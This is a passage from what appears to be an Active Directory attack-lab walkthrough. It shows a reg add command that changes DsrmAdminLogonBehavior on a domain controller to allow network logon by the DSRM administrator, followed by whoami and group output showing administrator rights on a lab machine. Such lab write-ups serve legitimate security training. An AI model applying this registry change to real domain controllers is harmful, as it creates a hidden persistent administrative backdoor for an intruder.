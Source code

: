 The **DSRM administrator** is not allowed to logon to the DC from network. So, we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows.

`reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f`:
```
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
The operation completed successfully.
```

`exit`

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![Victim: dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\student422
```

`hostname`:
```
dcorp-std422
```

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators📌                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
```